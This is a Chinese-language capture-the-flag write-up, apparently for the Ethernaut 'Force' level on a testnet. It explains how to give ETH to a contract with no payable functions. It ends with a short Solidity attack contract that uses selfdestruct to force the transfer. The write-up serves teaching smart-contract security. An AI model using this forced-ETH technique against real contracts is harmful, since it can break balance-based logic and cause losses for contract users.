


## Level_7.Force

要求：

> 使合约的余额大于0；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### 分析

貌似并没有给我们合约的具体内容；

在[交易查询网站](https://sepolia.etherscan.io)上查到合约的字节码：

```solidity
// 0x6080604052600080fdfea26469706673582212203717ccea65e207051915ebdbec707aead0330450f3d14318591e16cc74fd06bc64736f6c634300080c0033
```

反编译一下字节码：

```solidity
// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__() private { 
    MEM[64] = 128;
    revert();
}
```

发现好像就是一个空的合约；

题目的意思就是我们得往里面转账，可是` receive() `和` fallback() `都不存在，向合约发送ETH是会报错的;



由于版本是` 0.8 `，此时的` selfdestruct `还没有升级，可以向指定地址转账，无论那个地址是否有` payable `函数；

所以我们只需要部署一个合约，往其中转入一些ETH，之后销毁它，将其中ETH转入题目合约即可；


### 攻击

攻击脚本，记得将编译版本调低一点：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function destruct(address payable addr) public {
        selfdestruct(addr);
    }
    receive() external payable { }
}
```



